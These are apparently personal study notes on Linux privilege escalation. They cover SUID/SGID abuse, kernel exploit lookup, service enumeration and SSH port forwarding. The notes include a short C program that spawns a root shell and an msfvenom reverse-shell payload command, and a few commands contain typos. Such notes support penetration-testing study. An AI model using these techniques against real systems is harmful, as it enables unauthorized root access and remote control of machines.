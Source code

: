 #### special permissions
setuid SUID bit: when set, files get executed with the privileges of the file owner
setgid SGID bit: when this is set on a file, the file will get executed with the privileges of the file group
when set on a directory files created within that directory will inherit the group of the directory itself
effective id: used by most processes to verify a user, real id is only typically used in /etc/passwd (use command "id" for examples, 
```
cat /prox/$$/status | grep "[UG]id" for processes)
```

##### can run executables as root
if SUID is set for /bin/(ba)sh can copy file, rename, and execute with -p

##### custom executable
if a root process executes another process which you can control you can augment process to spawn root shell
example in C:
```
int main() {
	setuid(0);
	system("/bin/bash -p");
}
```
and compile using gcc -o NAME FILENAME.C
msfvenom can also be used to spawn rev shell
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST= LPORT= =f elf shell.elf
```

# tools
linux smart enumeration (lse.sh)
linenum

# kernel
usually a last resort as they can be unstable or crash machine 
search kernel with uname -a
searchsploit with kernel version
```
# searchsploit linux kernel 2.6.32 priv esc
```
or better yet, linux exploit suggester
```
# ./linux_exploit_suggester2 -k 2.6.32
```

# service exploits
#### enumerate service
- if vulnterable services are running as root explioiting could lead to priv esc
`$ ps aux | grep "^root"`
- enumerate versions of any programs found
`$<program> --version (-v)`
debian:
`$ dpkg -l | grep <program>`
rpm package manager (redhat):
`$ rpm -qa | grep <program>`

### port forwarding
- possible for root process to be bound to an internal port
- if you cannot exploit locall on target machine it may be possible to forward using ssh to localhost
` $ ssh -R <LOCAL_PORT>:127.0.0.1:<SERVICE_PORT> <USERNAME>@<LOCAL_MACHINE>`

###### example with mysql
on target:
`$ netstat -nl`
`tcp  0  0  127.0.0.1:3306  0.0.0.0:*  LISTEN`
`$ ssh -R 9001:127.0.0.1:3306 dials@192.168.0.129`
on local:


# weak file permissions

# sudo

# cron jobs

# suid/sgid executables

# passwords and keys

# NFS



